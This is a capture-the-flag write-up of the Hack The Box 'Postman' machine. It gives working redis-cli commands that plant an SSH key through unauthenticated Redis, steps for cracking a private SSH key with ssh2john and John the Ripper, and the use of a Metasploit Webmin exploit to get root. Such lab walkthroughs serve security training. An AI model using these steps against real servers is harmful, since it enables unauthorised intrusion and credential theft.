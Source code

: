 ```yaml
---
title:     "Hack The Box - Postman"
tags: [linux,easy,redis,john]
layout: post
categories: HackTheBox 
---
```


![](/img/htb-postman/img8.jpg)

We are going to pwn Postman from Hack The Box. Postman is a easy level linux machine.
Take a cup of tea and let's get started.

Link : <https://www.hackthebox.eu/home/machines/profile/215>

## Enumeration

Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-server-header: MiniServ/1.910
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.16 (93%), Linux 3.18 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Found that port 80 http is open, so a site must be running. 

![](/img/htb-postman/img13.jpg)

The site looks to be under construction.
The Only thing I got from webpage is email address at the bottom.

Tried DIRB to find out any sub-directories that may help.

![](/img/htb-postman/img17.jpg)

![](/img/htb-postman/img19.jpg)

Tried different wordlists with dirb but the results doesn't reveal any useful directories.
/upload had nothing useful.


Found out that the service “redis” is running on port 6379. 
Interestingly found a nse script for redis-info.

![](/img/htb-postman/img25.jpg)


## Exploiting Redis

Started reading about the redis in detail and to seehow it works. It is used as an
in-memory distributed database.
Also found this Redis Unauthorized Access Vulnerability that saved my life.
https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e

According to it,
Under certain conditions, if Redis runs with the root account (or not even), attackers can
write an SSH public key file to the root account, directly logging on to the victim server
through SSH. This may allow hackers to gain server privileges, delete or steal data, or
even lead to an encryption extortion, critically endangering normal business services.

Nice. I looked at its simulation and started doing the same process.

Also found another link with the same procedure,
https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html
These blogs saved my life. So I downloaded the redistools on my machine and started
doing the same steps.


First we generate the SSH KEYS with passphrase (90909090 for this case)

```
$ ssh-keygen -t rsa
```

![](/img/htb-postman/img44.jpg)

Remember, don't leave the passphrase empty. I tried with an empty passphrase and
encountered several problems, idk why. Keep it anything,just dont leave it empty.

Next, enter the .ssh folder. If you are root user,enter /.ssh, otherwise ~/.ssh, then copy
the private key into temp.txt. (or whatever.txt)

```
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n")> temp.txt
$ cat temp.txt (To Check the Key)
```

![](/img/htb-postman/img46.jpg)

So far we have generated a pair of keys, we will needto find a way to smuggle the
public key to the Redis server.
We are going to use redis-cli, the Redis command lineinterface, to send commands to
Redis and read the replies sent by the server directlyin the terminal.

```
$ cat temp.txt | redis-cli -h 10.10.10.160 -x setfok
```

Once Done, we have a key with our SSH key sneakedin! Let’s connect to the Redis
and play around its configuration. Use redis-cli toconnect to the Redis server again.
Take a look at the site and follow the same commands.

```
$ redis-cli -h 10.10.10.160
10.10.10.160:6379> get fok (key sent from previouscommand)
10.10.10.160:6379> CONFIG GET dir (Tell which directory you are in)
10.10.10.160:6379> CONFIG SET dir var/lib/redis/.ssh (set default directory of user redis)
10.10.10.160:6379> CONFIG SET dbfilename authorized_keys
10.10.10.160:6379> save (save the key)
```

![](/img/htb-postman/img51.jpg)

Let’s Try to Connect with SSH

Enter your passphrase and voila!

![](/img/htb-postman/img55.jpg)

TADA!!! Got a user “redis” shell. DAMN!

## Privilege Escalation

Ran to the /home file to find the user named “MATT”.I found the user.txt inside but
> PERMISSION DENIED!

These sites would help a lot :

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

https://guif.re/linuxeop

https://www.hackingarticles.in/privilege-escalation-cheatsheet-vulnhub/

Tried find the SUID Binaries to see if i could exploit them somehow.

![](/img/htb-postman/img61.jpg)


Tried everything, found the OS, Kernel, Distribution blah blah blah with the above
websites.

Ran LinEnum.sh to get more details.

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

![](/img/htb-postman/img66.jpg)

Found this through the script,

![](/img/htb-postman/img67.jpg)

Checked the bash_history of user “redis” : (See something common)


![](/img/htb-postman/img70.jpg)

Found a backup of Some Private Key inside the /opt/as /opt/id_rsa.bak and copied to
my Machine. (named it user.hash)

![](/img/htb-postman/img72.jpg)

We convert this private-Key to John Readable Hash with /ssh2john.py so that it can be
cracked with a appropriate wordlist.

$ cd /usr/share/john
You can see lot of keys to john-hash converter python scripts. Use the ssh2john.py
$ ./ssh2john.py {Location of the saved hash} > MATT.hash
This will convert the private ssh key to john readable hash.
$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt MATT.hash

![](/img/htb-postman/img76.jpg)

YEAH!!! Found the user password for “Matt” to be “computer2008”

Login inside the User “Matt”


![](/img/htb-postman/img78.jpg)

Yeah, Found the User Hash.

Tears of joy.

Went back to the HTB Forums and found out this hint:
ROOT: As said, you know are able to use an exploit that you couldn't use before.

Went back to Metasploit for the Webmin Exploit I found earlier but that didn't work. So
Let’s try that :

![](/img/htb-postman/img81.jpg)

It’s the webmin_packageup_rce script. Fired it up and set the options.
Ran the script and voila!!!!

![](/img/htb-postman/img83.jpg)

It worked! Man I knew what i had to do!

![](/img/htb-postman/img85.jpg)

Machine rooted!
